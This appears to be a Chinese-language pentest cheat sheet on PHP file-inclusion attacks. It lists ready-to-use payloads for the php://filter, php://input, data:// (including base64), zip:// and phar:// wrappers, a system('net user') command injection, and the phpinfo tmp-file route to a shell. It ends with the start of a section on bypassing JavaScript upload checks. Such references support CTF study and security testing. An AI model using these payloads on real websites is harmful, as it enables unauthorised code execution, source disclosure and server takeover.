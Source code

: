 
## php://filter

- `php://filter/convert.base64-encode/resource=index.php`

## php://input

- `?page=php://input`
    - post data: `<?php system("net user"); ?>`
    - 需要有開啟`url_allow_include`，5.4.0直接廢除

## phpinfo

- 對server以form-data上傳文件，會產生tmp檔
- 利用phpinfo得到tmp檔路徑和名稱
- Get shell

## data://

- 條件
    - allow_url_fopen: On
    - allow_url_include: On
- 用法
    - `?file=data://text/plain,<?php phpinfo()?>`
    - `?file=data:text/plain,<?php phpinfo()?>`
    - `?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=`

## zip / phar

- 適用驗證副檔名時
- zip
    - 新建zip，裡頭壓縮php腳本(可改副檔名)
    - `?file=zip://myzip.zip#php.jpg`
- phar
    - ```php
        <?php
            $p = new PharData(dirname(__FILE__).'/phartest.zip',0,'phartest2',Phar::ZIP);
            $x = file_get_contents('./a.php');
            $p->addFromString('b.jpg', $x);
        ?>
    - 構造 `?file=phar://phartest.zip/b.jpg`

# 上傳漏洞

## Javascript檢測

- Burp Suite 中間修改
- disable javascript
